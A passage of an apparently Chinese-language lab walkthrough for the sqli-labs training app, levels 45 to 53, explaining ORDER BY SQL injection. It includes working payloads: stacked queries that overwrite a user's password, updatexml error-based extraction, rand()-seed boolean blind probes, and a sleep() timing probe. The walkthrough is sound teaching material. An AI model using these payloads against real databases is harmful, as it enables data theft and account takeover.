payload = "x'); UPDATE security.users SET password='hacked-L45' WHERE id='1'; -- "
resp = query_post("Less-45/login.php", data={"login_user": "x", "login_password": payload})
```

## ORDER BY注入：L46-L53

### 前言 & 笔记

`ORDER BY`的正常使用：

```sql
SELECT * FROM users ORDER BY 2; -- 按照第2列排序（默认升序）
SELECT * FROM users ORDER BY rand(); -- 随机排序
SELECT * FROM users ORDER BY username; -- 按照用户名排序（默认升序）
SELECT * FROM users ORDER BY username ASC, id DESC; -- 先按用户名升序排序，再按ID降序排序
```

#### 注入思路1：布尔盲注

这里的盲注不一定是看不到回显，而是无法通过注入直接获取数据，只能通过不同的排序行为来泄露一比特的条件信息。

```sql
SELECT * FROM users ORDER BY if(cond, id, username);
SELECT * FROM users ORDER BY rand(cond);
```

`ORDER BY rand()`实现随机排序的原理是每一行都会调用`rand()`生成一个随机数，然后根据这个随机数排序。

MySQL的`rand()`函数可以接受一个整数参数作为种子值，当传入相同的种子值时，`rand(seed)`会生成相同的随机数序列，因此一个`cond`条件的真假会影响排序结果，相当于设置了种子值为`0`或`1`。

#### 注入思路2：时间盲注

```sql
SELECT * FROM users ORDER BY '...', sleep(1);
SELECT * FROM users ORDER BY '...' OR sleep(1);
```

> 语句`SELECT * FROM users ORDER BY '...' OR sleep(1);`实际上是`ORDER BY`逻辑表达式`'...' OR sleep(1)`的值，语句的实际意义不大。

> `ORDER BY sleep(1)`函数会对每一行调用`sleep(1)`，假设有`N`行数据，那么整个查询会延时`N`秒。

#### 注入思路3：报错盲注

如果服务端开启了报错回显，注入思路和报错注入是一样的。

### L46

```php
$sort = $_GET['sort'];
$sql = "SELECT * FROM users ORDER BY $sort";
```

报错注入：

```python
payload = "?sort=updatexml(null,concat(0x7e,(SELECT database()),0x7e),null) -- "
```

<!-- @xprops width="100%" -->



### L47

```php
$sort = $_GET['sort'];
$sql = "SELECT * FROM users ORDER BY '$sort'";
```

报错注入：

```python
payload = "?sort=x' OR updatexml(null,concat(0x7e,(SELECT database()),0x7e),null) -- "
```

### L48

```php
$sort = $_GET['sort'];
$sql = "SELECT * FROM users ORDER BY $sort";
```

报错回显被关闭了，考虑使用布尔盲注：

```python
payload = "?sort=rand(substr(database(),1,1)='!') -- "
resp = query_get("Less-48", payload)
hash_false = sha256(resp.text.encode()).hexdigest()


def test(payload):
    resp = query_get("Less-48", payload)
    hash_resp = sha256(resp.text.encode()).hexdigest()
    print(payload, ":", hash_resp != hash_false)


test("?sort=rand(substr(database(),1,1)='?') -- ")  # False
test("?sort=rand(substr(database(),1,1)='s') -- ")  # True
test("?sort=rand(substr(database(),2,1)='e') -- ")  # True
test("?sort=rand(substr(database(),3,1)='c') -- ")  # True
```

### L49

```php
$sort = $_GET['sort'];
$sql = "SELECT * FROM users ORDER BY '$sort'";
```

布尔盲注仍然可用：

```python
payload = "?sort=x' OR rand(999) < rand(substr(database(),1,1)='!') -- "
resp = query_get("Less-49", payload)
hash_false = sha256(resp.text.encode()).hexdigest()


def test(payload):
    resp = query_get("Less-49", payload)
    hash_resp = sha256(resp.text.encode()).hexdigest()
    print(payload, ":", hash_resp != hash_false)


test("?sort=x' OR rand(999) < rand(substr(database(),1,1)='?') -- ")  # False
test("?sort=x' OR rand(999) < rand(substr(database(),1,1)='s') -- ")  # True
test("?sort=x' OR rand(999) < rand(substr(database(),2,1)='e') -- ")  # True
test("?sort=x' OR rand(999) < rand(substr(database(),3,1)='c') -- ")  # True
```

原理是，由于服务端传入的`sort`参数被单引号包裹，闭合后形成`ORDER BY 'x' OR rand(999) < rand(...)`，也就是根据逻辑表达式`'x' OR rand(999) < rand(...)`的值进行排序。

字符串`'x'`在MySQL中被转换为整数`0`（因为不是以数字开头），因此逻辑关系用`OR`来确保后面的表达式`rand(999) < rand(...)`被计算；当条件分别为真或假时，相当于计算`rand(999) < rand(0)`或`rand(999) < rand(1)`。这里`999`可随意填写。

`rand(0)`、`rand(1)`、`rand(999)`由于固定了种子，生成的序列都是确定的，因此最后的排序结果是稳定的；而序列`rand(0)`、`rand(1)`不同，导致最终结果行的顺序不同，从而可以用于判断条件是否成立。

#### 时间盲注

```python
# ?sort=x' OR sleep(if(substr(database(),1,1)='!', 0.3, 0)) --+
```

### L50-L53

服务端使用`mysqli_multi_query`：

```php
$sort = $_GET['sort'];
$sql = "SELECT * FROM users ORDER BY $sort"; // BY '$sort'"
if (mysqli_multi_query($con1, $sql)) {
    // ...
```

使用堆叠注入是最简单的方式。L52和L53分别是L50和L51的盲注版本。

```python
payload = "?sort=1; UPDATE security.users SET password='hacked-L50' WHERE id='1'; -- "
payload = "?sort=1'; UPDATE security.users SET password='hacked-L51' WHERE id='1'; -- "
payload = "?sort=1; UPDATE security.users SET password='hacked-L52' WHERE id='1'; -- "
payload = "?sort=1'; UPDATE security.users SET password='hacked-L53' WHERE id='1'; -- "
```
